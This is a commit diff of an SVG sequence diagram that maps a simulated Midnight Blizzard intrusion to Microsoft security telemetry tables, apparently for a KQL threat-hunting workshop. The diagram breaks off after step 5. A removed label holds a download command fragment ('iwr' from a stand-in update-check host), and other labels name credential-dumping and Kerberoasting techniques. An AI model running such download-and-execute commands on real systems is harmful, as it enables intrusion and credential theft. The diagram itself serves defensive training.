

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 900" font-family="ui-sans-serif, system-ui, -apple-system, 'Segoe UI', Roboto, sans-serif">
  <defs>
    <marker id="arrowSeq" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="8" markerHeight="8" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#cbd5e1" />
    </marker>
    <marker id="arrowSeqDashed" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#64748b" />
    </marker>
  </defs>
  <rect x="20" y="20" width="1160" height="860" rx="14" fill="#0b1220" stroke="#1f2937" stroke-width="1.5" />
  <text x="600" y="58" text-anchor="middle" fill="#f1f5f9" font-size="20" font-weight="700">Attack Storyline — Sequence View</text>
-   <text x="600" y="80" text-anchor="middle" fill="#94a3b8" font-size="13">Midnight Blizzard credential-access intrusion · time flows top to bottom · telemetry deposits to ADX shown as dashed</text>
+   <text x="600" y="80" text-anchor="middle" fill="#94a3b8" font-size="13">Midnight Blizzard device-code intrusion · time flows top to bottom · telemetry deposits to ADX shown as dashed</text>
  <rect x="55" y="105" width="130" height="56" rx="8" fill="#3a1212" stroke="#ef4444" stroke-width="2" />
  <text x="120" y="128" text-anchor="middle" fill="#fecaca" font-size="13" font-weight="700">Attacker</text>
  <text x="120" y="146" text-anchor="middle" fill="#fca5a5" font-size="10">Midnight Blizzard</text>
  <rect x="205" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="270" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">Entra ID</text>
  <text x="270" y="146" text-anchor="middle" fill="#fdba74" font-size="10">SigninLogs</text>
  <rect x="355" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="420" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">MS Graph</text>
  <text x="420" y="146" text-anchor="middle" fill="#fdba74" font-size="10">Graph + CloudApp</text>
  <rect x="505" y="105" width="130" height="56" rx="8" fill="#0f3a1f" stroke="#22c55e" stroke-width="2" />
  <text x="570" y="128" text-anchor="middle" fill="#bbf7d0" font-size="13" font-weight="700">WIN11-04</text>
  <text x="570" y="146" text-anchor="middle" fill="#86efac" font-size="10">MDE endpoint</text>
  <rect x="655" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="720" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">DC01 / DC02</text>
  <text x="720" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">MDI sensors</text>
  <rect x="805" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="870" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">AADCONNECT01</text>
  <text x="870" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">Entra Connect</text>
  <rect x="955" y="105" width="170" height="56" rx="8" fill="#0f172a" stroke="#94a3b8" stroke-width="2" />
  <text x="1040" y="128" text-anchor="middle" fill="#f1f5f9" font-size="13" font-weight="700">Azure Data Explorer</text>
  <text x="1040" y="146" text-anchor="middle" fill="#cbd5e1" font-size="10">CyberDefenseKqlWorkshop</text>
  <line x1="120" y1="161" x2="120" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="270" y1="161" x2="270" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="420" y1="161" x2="420" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="570" y1="161" x2="570" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="720" y1="161" x2="720" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="870" y1="161" x2="870" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="1040" y1="161" x2="1040" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
-   <text x="40" y="200" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+0</text>
-   <text x="40" y="270" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+5m</text>
-   <text x="40" y="350" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+15m</text>
+   <text x="40" y="200" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T-45m</text>
+   <text x="40" y="270" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T-37m</text>
+   <text x="40" y="350" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+5m</text>
  <text x="40" y="445" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+22m</text>
  <text x="40" y="530" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+35m</text>
  <text x="40" y="610" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+50m</text>
  <text x="40" y="695" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+73m</text>
  <text x="40" y="775" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+81m</text>
  <line x1="120" y1="200" x2="265" y2="200" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
-   <text x="190" y="192" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">1 · Compromised sign-in (MFA)</text>
-   <text x="190" y="216" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">victor.alvarez · 185.225.73.18</text>
+   <text x="190" y="192" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">1 · Device-code phish delivered</text>
+   <text x="190" y="216" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">lure points at the genuine microsoft.com/devicelogin · victim clicks</text>
  <line x1="270" y1="232" x2="1035" y2="232" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="650" y="226" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">SigninLogs · EntraIdSignInEvents</text>
-   <line x1="120" y1="270" x2="415" y2="270" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
-   <text x="265" y="262" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">2 · OAuth consent + Graph enumeration</text>
-   <text x="265" y="286" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">malicious app · Mail.Read · Files.Read.All</text>
-   <line x1="420" y1="302" x2="1035" y2="302" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="725" y="296" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">GraphAPIAuditEvents · CloudAppEvents</text>
-   <line x1="120" y1="350" x2="565" y2="350" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
-   <text x="340" y="342" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">3 · PowerShell staging on endpoint</text>
-   <text x="340" y="366" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">iwr cdn.update-check.example/a.ps1 · drops to C:\ProgramData\wrstage</text>
-   <line x1="570" y1="382" x2="1035" y2="382" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="800" y="376" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceNetworkEvents</text>
+   <text x="650" y="226" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">EmailEvents · EmailUrlInfo · UrlClickEvents</text>
+   <line x1="120" y1="270" x2="265" y2="270" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
+   <text x="190" y="262" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">2 · Token redeemed (MFA satisfied)</text>
+   <text x="190" y="286" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">victor.alvarez · 185.225.73.18 · unmanaged device · benign twin runs earlier</text>
+   <line x1="270" y1="302" x2="1035" y2="302" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
+   <text x="650" y="296" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">SigninLogs · EntraIdSignInEvents</text>
+   <line x1="120" y1="350" x2="415" y2="350" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
+   <text x="265" y="342" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">3 · OAuth consent + Graph enumeration</text>
+   <text x="265" y="366" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">USAG Cyber Sync Helper · Mail.Read · Files.Read.All · SP credential added</text>
+   <line x1="420" y1="382" x2="1035" y2="382" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
+   <text x="725" y="376" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">OAuthAppInfo · GraphAPIAuditEvents · CloudAppEvents</text>
  <line x1="120" y1="445" x2="565" y2="445" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
-   <text x="340" y="437" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">4 · Registry · SAM · browser · LSASS · password stores</text>
-   <text x="340" y="461" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">T1552.002 · T1003.002 · T1555.003 · T1003.001 · T1555</text>
+   <text x="340" y="437" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">4 · Endpoint staging → registry · SAM · browser · LSASS · password stores</text>
+   <text x="340" y="461" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">C:\ProgramData\wrstage · T1552.002 · T1003.002 · T1555.003 · T1003.001 · T1555</text>
  <line x1="570" y1="478" x2="1035" y2="478" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="472" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceFileEvents · DeviceRegistryEvents</text>
  <line x1="570" y1="530" x2="715" y2="530" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="640" y="522" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">5 · Kerberoasting from WIN11-04</text>
-   <text x="640" y="546" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">Rubeus · LDAP SPN search · RC4 ticket request · T1558.003</text>
+   <text x="640" y="546" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">LDAP SPN search · RC4 service ticket request · T1558.003</text>
  <line x1="720" y1="562" x2="1035" y2="562" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
